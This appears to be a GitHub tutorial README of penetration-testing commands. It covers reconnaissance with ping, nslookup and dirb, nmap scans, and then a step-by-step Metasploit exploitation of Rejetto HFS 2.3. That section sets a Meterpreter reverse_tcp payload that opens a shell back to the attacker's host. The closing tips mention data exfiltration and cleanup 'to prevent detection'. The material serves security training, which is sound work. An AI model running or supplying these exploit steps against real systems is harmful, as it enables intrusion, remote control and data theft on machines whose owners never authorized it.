 <h1 align="center">PENETRATION TESTING PRACTICAL EXAMPLE COMMANDS</h1>

## STEP 1 (Information Gathering)

- Information gathering, or reconnaissance, is the initial phase where you collect data about the target system to identify potential vulnerabilities.

- The ping command checks the reachability of the target IP address and measures the round-trip time for messages sent to the destination. This helps determine if the host is active.

```bash
$ ping <ip address>
```

- nslookup queries the Domain Name System (DNS) to obtain the domain name associated with the target IP address. This can reveal valuable information about the target's network.

```bash
$ nslookup <ip address>
```

- dirb is a web content scanner that brute-forces directories and files on web servers. It helps discover hidden resources that might be accessible without proper authorization.

```bash
$ dirb <ip address>
```

- dirbuster is a graphical tool similar to dirb but offers a user-friendly interface and additional features for discovering hidden directories and files on web servers.
```bash 
$ dirbuster
```

## STEP 2 (SCANNING)

- Scanning involves probing the target system to identify open ports, services, and potential vulnerabilities.

- nmap is a network scanner used to discover hosts and services on a computer network. This command performs a basic scan to identify open ports on the target system.

```bash
$ nmap <ip address>
```

```bash
$ nmap <ip address> -sV -O -p 8081
```

## STEP 3 (EXPLOITATION)

- In this scenario, we've identified that the target is running Rejetto HTTP File Server (HFS) version 2.3, which is vulnerable to remote command execution due to a flaw in its scripting commands. We'll use Metasploit to exploit this vulnerability.

- This command searches Metasploit's database for available exploits related to "rejetto." The relevant module is exploit/windows/http/rejetto_hfs_exec.

```bash
$ searchslpoit rejetto
```

- This command starts the Metasploit console, providing access to its extensive suite of exploitation tools.

```bash
$ msfconsole
```

- This command selects the Rejetto HFS exploit module for use.

```bash
$ use exploit/windows/http/rejetto_hfs_exec
```

- Set the Target's IP Address:

```bash
set RHOSTS <target_ip>
```
- Replace <target_ip> with the actual IP address of the target system.

- Specify the Target Port (if different from default):

```bash
set RPORT 80
```
- If the HFS service is running on a port other than the default HTTP port (80), specify it here.

- Configure the Payload:

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```
- This sets the payload to establish a reverse TCP connection, providing a Meterpreter shell on the target system.

- Set Local Host for the Reverse Connection:

```bash
set LHOST <your_ip>
```
- Replace <your_ip> with your machine's IP address to receive the reverse connection.

- Set Local Port for the Reverse Connection:

```bash
set LPORT 4444
```
- This sets the local port to listen for the incoming connection. Ensure this port is open and not blocked by any firewall.

- Verify the Exploit Settings:

```bash
show options
```
- Review all configured options to ensure accuracy before launching the exploit.

- Execute the Exploit:

```bash
exploit
```
- This command initiates the exploit. Upon successful execution, it establishes a Meterpreter session, granting control over the target system.


## Important Considerations:

- Legal Authorization: Ensure you have explicit permission to conduct penetration testing on the target system to comply with legal and ethical standards.

- Post-Exploitation: After gaining access, proceed with post-exploitation activities, such as privilege escalation, data exfiltration, or system analysis, based on the objectives of your engagement.

- Cleanup: Always remove any files or artifacts left on the target system during exploitation to prevent detection and maintain system integrity.

